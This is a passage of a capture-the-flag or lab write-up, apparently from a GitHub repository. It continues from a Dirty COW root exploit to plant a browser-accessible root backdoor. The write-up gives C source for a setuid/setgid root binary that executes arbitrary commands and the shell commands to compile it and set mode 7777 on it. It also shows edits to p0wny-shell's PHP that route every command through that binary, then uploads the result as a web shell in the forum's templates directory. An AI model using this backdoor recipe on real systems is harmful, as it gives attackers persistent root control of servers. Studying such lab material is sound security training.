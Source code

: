 # Dirty cow + P0wny-Shell backdoor

We will use the same method of the 1st solution (starting after the dirty cow upload part)

At this state, we have a the dirty cow exploit on the machine. We will run it to create the new `root` user with the new password `easywin`.

In the 1st solution, we had a reverse shell to get the root shell. In this method, we will add a php page in the forum to get a root shell in the browser.

Using [**p0wny-shell**](https://github.com/flozz/p0wny-shell). P0wny-shell is a php single-page that emulate a shell and execute some commands on the server.

But in this case, we have some problems. The apache2 server is running as www-data, not root. So, the commands launched by the php code will be executed as www-data.

To bypass this, we will make a binary `exec_cmd` with the suid/sgid root for executing commands

```c
#include <stdio.h>

int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
```

Build it and add it in the path, on the root shell

```
$ cat > /usr/bin/exec_cmd.c << EOF
#include <stdio.h>

int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
EOF
```

```
$ gcc /usr/bin/exec_cmd.c -o /usr/bin/exec_cmd

$ chown root:root /usr/bin/exec_cmd && chmod 7777 /usr/bin/exec_cmd
```

Now, we need to modify the original `p0wny-shell` file, to execute commands with our binary. Let's see where the commands are executed.

```php
function featureShell($cmd, $cwd) {
    $stdout = array();

    if (preg_match("/^\s*cd\s*$/", $cmd)) {
        // pass
    } elseif (preg_match("/^\s*cd\s+(.+)\s*(2>&1)?$/", $cmd)) {
        chdir($cwd);
        preg_match("/^\s*cd\s+([^\s]+)\s*(2>&1)?$/", $cmd, $match);
        chdir($match[1]);
    } elseif (preg_match("/^\s*download\s+[^\s]+\s*(2>&1)?$/", $cmd)) {
        chdir($cwd);
        preg_match("/^\s*download\s+([^\s]+)\s*(2>&1)?$/", $cmd, $match);
        return featureDownload($match[1]);
    } else {
        chdir($cwd);
        exec($cmd, $stdout);
    }

    return array(
        "stdout" => $stdout,
        "cwd" => getcwd()
    );
}

function featureHint($fileName, $cwd, $type) {
    chdir($cwd);
    if ($type == 'cmd') {
        $cmd = "compgen -c $fileName";
    } else {
        $cmd = "compgen -f $fileName";
    }
    $cmd = "/bin/bash -c \"$cmd\"";
    $files = explode("\n", shell_exec($cmd));
    return array(
        'files' => $files,
    );
}
```

We can see 2 interesting lines

```php
exec($cmd, $stdout);
...
$cmd = "/bin/bash -c \"$cmd\"";
$files = explode("\n", shell_exec($cmd));
```

We will change it like this:

```php
exec("exec_cmd '" . $cmd . "'", $stdout);
...
$cmd = "/bin/bash -c \"$cmd\"";
$files = explode("\n", shell_exec("exec_cmd '" . $cmd . "'"));
```

Now upload the file with the same `cat` method

```
$ cat > /var/www/forum/templates_c/shell.php << EOF
<paste>
EOF
```

We have our php backdoor with a nice terminal emulation on the page `forum/templates_c/shell.php`

![screen](../img/screen_p0wny.png)

All of this is automated with the script `dirtycow_p0wny.py`

:checkered_flag:
